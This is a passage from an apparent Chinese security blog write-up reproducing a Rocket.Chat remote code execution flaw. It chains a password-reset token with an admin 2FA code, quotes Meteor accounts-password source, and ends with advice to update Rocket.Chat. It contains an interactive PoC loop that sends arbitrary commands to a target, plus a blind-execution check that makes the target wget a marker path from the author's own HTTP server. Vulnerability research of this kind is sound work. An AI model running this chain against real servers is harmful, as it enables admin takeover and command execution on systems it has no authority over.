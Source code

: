 其中 forgotpassword() 这一步不可缺少，因为每次通过 reset token 来修改密码以后，后台会自动删除该 token。在本地测试的时候，因为没有 forgotpassword() 这一步，所以每次执行过 changingadminpassword() 以后，都会因为缺少 reset token 导致下一次 PoC 执行失败。通过断点调试找到了问题所在。

在`.meteor/local/build/programs/server/packages/accounts-password.js line 1016`

```
resetPassword: function () {
    // ...
    try {
        // Update the user record by:
        // - Changing the password to the new one
        // - Forgetting about the reset token that was just used
        // - Verifying their email, since they got the password reset via email.
        const affectedRecords = Meteor.users.update({
            'services.password.reset.token': token
        }, {
            $unset: {
                'services.password.reset': 1,
            }
        });
    }
}
```

每一次执行 resetPassword() 以后，都会清空 token。同样在这个文件中，可以找到用于生成 reset.token 的函数 generateResetToken()。在此文件中共有三次出现，其中一次是函数定义，两次是调用，分别于第 898 行和第 938 行被 sendResetPasswordEmail() 和 sendEnrollmentEmail() 调用。

```
Accounts.sendResetPasswordEmail = (userId, email, extraTokenData) => {
  const {/*...*/} = Accounts.generateResetToken(userId, email, 'resetPassword', extraTokenData);
```

sendResetPasswordEmail() 在申请重置密码的时候被调用，sendEnrollmentEmail() 在用户刚注册的时候被调用。因此，想要获得 reset.token 的值，就要先发起一个重置密码的请求，让后台发送一封重置密码的邮件。

最后一步就是执行任意命令了。

```
## Authenticating and triggering rce

while True:
    cmd = input("CMD:> ")
    code = oathtool.generate_otp(secret)
    rce(target,code,cmd)
```

由于命令执行没有回显，因此我的做法是在本地监听一个端口起一个 HTTP 服务器，然后执行 `wget HTTP服务器地址/${random_str}`，如果 HTTP 服务器收到了路由为 `/${random_str}`的请求，则证明该服务存在漏洞。

 **0x05 后记** 

这次复现经过了挺长的时间，主要是由于这个漏洞利用的条件比较苛刻，需要满足各种限制条件，比如需要开放注册功能、管理员账号开启了 2FA、被攻击目标的版本满足要求。不过通过耐心的分析，把复现过程中遇到的问题一一解决，我还是很高兴的。

 **0x06 防护方案** 

1、更新 Rocket.Chat 至官方发布的最新版。
